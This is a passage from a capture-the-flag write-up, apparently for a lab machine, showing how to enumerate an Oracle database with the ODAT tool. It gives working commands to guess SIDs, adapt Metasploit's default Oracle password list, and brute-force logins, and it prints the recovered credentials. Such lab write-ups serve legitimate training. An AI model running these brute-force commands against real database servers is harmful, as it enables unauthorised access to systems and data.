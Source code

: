 ## Enumeration <a id="c516"></a>

If you don’t have ODAT installed on kali, the installation instructions can be found [here](https://github.com/quentinhardy/odat#installation-optional-for-development-version).

The first thing we need to enumerate is the Oracle System ID \(SID\) string. This is a string that is used to uniquely identify a particular database on a system. This can be done using the _sidguesser_ module in ODAT.

```text
python3 odat.py sidguesser -s 10.10.10.82 -p 1521
```

This takes a while, but it does find 4 valid SID strings.

```text
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB,SA,SB
```

We’ll use the first one: _XE_.

The second thing to do is enumerate valid credentials. This can be done using the _passwordguesser_ module in ODAT. I tried both account files that come with the ODAT installation, however, the tool didn’t find any valid credentials. So instead, let’s locate the credential list that the Metasploit framework uses.

```text
root@kali:~/Desktop/tools/odat# locate oracle_default_userpass.txt
/usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt
```

Copy it into the ODAT _accounts_ directory.

```text
root@kali:~/Desktop/tools/odat# cp /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt accounts/
```

The username and passwords in this list are separated by a space instead of a forward slash \(/\). We’ll have to change it to forward slash so that the ODAT tool is able to parse the file. This can be done in vi using the following command.

```text
 :%s/ /\//g
```

Now that we have a proper list, we can use the _passwordguesser_ module to brute force credentials.

```text
python3 odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file accounts/oracle_default_userpass.txt
```

Again, this also takes a while but it ends up finding credentials!

```text
[+] Accounts found on 10.10.10.82:1521/XE: 
scott/tiger
```
